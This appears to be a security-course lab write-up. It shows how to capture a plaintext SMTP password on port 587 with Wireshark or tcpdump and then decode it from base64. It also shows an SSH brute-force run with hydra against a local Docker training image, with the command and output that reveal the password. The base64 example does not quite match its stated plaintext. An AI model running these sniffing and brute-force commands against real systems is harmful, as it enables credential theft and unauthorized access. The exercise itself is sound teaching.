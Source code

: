 # attack_is_the_best_defense

## Task 0

- Just use wireshark with filter tcp.port = 587
- Start listenening and execute the script `user_authenticating_into_server`
- Check the command line packets or search for password key word
- The base64 password is `bXlwYXNzd29yZDk4OTgh7` use any online base64 encode/decode tool to get the password `mypassword9898!`

- Also you can use `tcpdump` command to get the password

```sh
$ tcpdump -A 'port 587'
...
```

- Use flag `-A` to print packet contents
- Add expression `port 587` to filter packets and print only packets has dist/src port = 587

## Task 1

- Use hydra tool to bruteforce the ssh account password for the user `sylvain`
- The docker image `sylvainkalache/264-1`
- Find your own passwords dictionary online, I used [this one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

```sh
docker run -p 2222:22 --name my_server -d -ti sylvainkalache/264-1
```

- I used the `hydra-wizard` tool to build my command according to my case

```sh
$ hydra -l sylvain -P 2020-200_most_used_passwords.txt -u  -s 2222  0.0.0.0:2222 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-31 23:04:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 197 login tries (l:1/p:197), ~13 tries per task
[DATA] attacking ssh://0.0.0.0:2222/
[2222][ssh] host: 0.0.0.0   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 9 final worker threads did not complete until end.
[ERROR] 9 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-31 23:05:34
```

The password is `password123`

